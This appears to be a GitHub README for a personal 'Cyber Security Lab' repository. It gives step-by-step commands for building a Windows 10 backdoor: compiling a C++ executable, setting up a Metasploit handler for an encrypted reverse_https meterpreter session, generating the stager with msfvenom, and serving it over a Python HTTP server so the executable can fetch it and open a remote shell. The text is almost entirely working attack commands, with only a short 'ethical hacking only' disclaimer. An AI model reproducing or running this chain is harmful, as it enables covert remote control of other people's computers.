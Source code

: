 # Cyber Security
Cyber Security Lab Experiences by Fabio Felgueiras
Use this for ethical hacking only 


In this example we will use a Kali Linux 2023.2 and windows 10
Tools used:
-OpenSSL To create the certificate
-msfConsole to create the listner
-msfvenom to create the payload
-python to create the http server
-c++ to create the windows .exe 


Windows 10 Backdoor 


In Kali >

1- Download

    git clone https://github.com/Blive77/cybersecurity/
    cd cybersecurity
    
2- Compile

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
    
    
3- Create custom SSL/TLS certificate 
    https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html

    openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
    cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
    rm -f www.example.com.key  www.example.com.crt
    
      
4- Config the msfconsole Listner

    msfconsole
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_https
    set LHOST 0.0.0.0
    set LPORT 3333
    set HandlerSSLCert www.example.com.pem
    set StagerVerifySSLCert true
    set HandlerSSLCert /home/kali/cybersecurity/www.example.com.pem
    exploit
   
    
5- Create the Payload with msfvenom in Kali linux

   In my case:
   - Host IP= 192.168.235.132  
   - Host Port= 3333
   - Path To cert file= /home/kali/cybersecurity/www.example.com.pem
      
    msfvenom -p windows/x64/meterpreter/reverse_https lhost=(Host IP) lport=(Host Port) HandlerSSLCert=(Path To cert file) StagerVerifySSLCert=true -f raw > load.bin
    
   
6- Setup the http webserver for Payload download (while in cybersecurity folder)

    python -m http.server
    
In Windows >
    
1- Execute the File created in point (2) backDoorTest.exe
    
    backDoorTest.exe ( can be execute with paramters IP, Port and PayLoad File )
 
